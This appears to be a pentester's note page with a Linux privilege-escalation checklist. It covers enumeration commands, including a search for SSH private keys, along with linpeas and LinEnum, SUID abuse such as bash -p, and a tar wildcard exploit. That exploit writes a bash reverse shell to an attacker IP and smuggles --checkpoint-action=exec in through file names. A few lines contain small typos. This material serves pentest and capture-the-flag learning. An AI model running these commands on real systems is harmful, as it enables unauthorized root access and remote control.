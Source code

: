 ```yaml
---
title: 5 – Privesc Linux
summary: Privilege Escalation step – a note for elevating privileges on a Linux machine.
description: Privilege Escalation step – a note for elevating privileges on a Linux machine.
---
```


# Privesc Checklist

---

 > 
 > **<font color=red>sudo -l</font>**</br>
 > Display commands allowed to run with root privileges.

 > 
 > **<font color=red>history</font>**</br>
 > Show shell history.

 > 
 > **<font color=red>env</font>**</br>
 > Show environment variables.

 > 
 > **<font color=red>find / -perm -u=s -type f 2> /dev/null</font>**</br>
 > Search for commands with SUID enabled (then check [https://gtfobins.github.io/](https://gtfobins.github.io/)) 

 > 
 > **<font color=red>getcap -r / 2>/dev/null</font>**</br>
 > Search for commands with capabilities (then check [https://gtfobins.github.io/](https://gtfobins.github.io/)) 

 > 
 > **<font color=red>find / -writable 2>/dev/null</font>**</br>
 > Search for writable folders.

 > 
 > **<font color=red>find / -name id_rsa 2> /dev/null/</font>**</br>
 > Search for SSH private keys.

 > 
 > **<font color=red>cat /etc/crontab</font>**</br>
 > Looking for automated scripts.

# Others Suggestions

---

* Determining the kernel of the machine and search for kernel exploitation (such as Dirtyc0w).
* Misconfigured file and directory permissions.
* pspy (process snooping): https://github.com/DominicBreuker/pspy 

# Automated Scripts

---

### LINPEAS

https://github.com/carlospolop/PEASS-ng/releases

 > 
 > **<font color=red>./linpeas.sh</font>**

---

### LINEUM

https://github.com/rebootuser/LinEnum

 > 
 > **<font color=red>./LinEnum.sh</font>**

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>post/multi/recon/local_exploit_suggester</font>**
 > Check exploits for privilege escalation.

# SUID Examples

---

### CP

 > 
 > **<font color=red>cp /root/</font> /home/myUser/**</br>
 > **<font color=red>cd</font> /home/myUser/root**</br>
 > Access root content.

---

### BASH

 > 
 > **<font color=red>bash -p</font>**</br>
 > Get a root shell.

# Wildcard Exploitation

---

### Resource

[https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/)

### Example

Script running as root:

 > 
 > **tar cf /home/myUser/backups/backup.tgz \***

Exploit:

 > 
 > **<font color=red>echo "bash -i >& i/dev/tcp/</font>\[ATTACKER IP\]<font color=red>/</font>\[ATTACKER PORT\] <font color=red>0>&1" > </font>revshell.sh**</br>
 > **<font color=red>touch "</font>/home/myUser/backups/<font color=red>--checkpoint-action=exec=</font>sh revshell.sh<font color=red>"</font>**</br>
 > **<font color=red>touch "</font>/home/myUser/<font color=red>"--checkpoint=1"</font>**</br>
